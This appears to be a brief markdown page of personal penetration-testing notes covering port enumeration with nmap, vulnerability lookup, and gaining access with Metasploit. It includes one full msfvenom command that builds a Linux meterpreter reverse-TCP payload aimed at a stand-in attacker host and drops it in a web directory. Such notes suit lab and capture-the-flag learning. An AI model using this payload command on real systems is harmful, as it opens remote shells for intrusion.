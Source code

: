 ### Enumeration

sudo nmap ip
- look for open ports
- dig further into open ports, use -p- flag.
- look for services that can be exploited.
- find cve's/known vulnerabilities. 
- consider dirbuster and others.
### Gaining access
- msfconsole. Depending on what is found in discovery
- msfvenom
- https://null-byte.wonderhowto.com/how-to/attack-vulnerable-practice-computer-guide-from-scan-shell-0179589/
- msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=attackingMachine LPORT=6666 -f elf > /var/www/html/6666Met
- curl can help to connect to page.
- 